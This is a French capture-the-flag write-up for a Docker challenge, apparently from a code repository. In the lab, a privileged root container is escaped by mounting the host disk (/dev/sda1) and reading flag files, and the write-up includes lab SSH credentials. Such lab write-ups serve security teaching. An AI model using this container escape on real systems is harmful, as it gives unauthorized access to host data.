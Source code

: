 # DOCKER - I Am Groot

### 15 points

### Énoncé:

L’un des administrateurs système déploie une machine docker en root et avec des privilèges, il vous dit que ce n’est pas important car, tant que c’est dans le container, c’est sécurisé :)

Démarrez le CTF-ATD "I am groot"
Connectez-vous en SSH sur le docker de la machine port 2222 (root / arq87TNDCf9NfksD)
Le mot de passe de validation du challenge est dans le fichier .passwd
Le mot de passe de validation du CTF-ATD est dans le fichier /passwd


# Résolution

```
➜  IAmGroot: ssh root@[ip] -p 2222
````
```
root@h3yd0ck3r:~# lsblk

NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT

sda      8:0    0   20G  0 disk 

├─sda1   8:1    0   19G  0 part /etc/hosts

├─sda2   8:2    0    1K  0 part 

└─sda5   8:5    0  975M  0 part [SWAP]
```
ou alors

```
root@h3yd0ck3r:~# mount

proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)

tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)

devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,
mode=620,ptmxmode=666)

sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)

cgroup on /sys/fs/cgroup type cgroup2 (rw,nosuid,nodev,noexec,relatime)

mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)

shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)

/dev/sda1 on /etc/hosts type ext4 (rw,relatime,discard)

devpts on /dev/console type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
```
---
```
root@h3yd0ck3r:~# mkdir -p /mnt/random

root@h3yd0ck3r:~# mount /dev/sda1 /mnt/random

root@h3yd0ck3r:~# cd /mnt/random
```
---
```
root@h3yd0ck3r:~# cat passwd

[flag pour le ctf daily]


root@h3yd0ck3r:~# cat .passwd

[flag pour le challenge]
```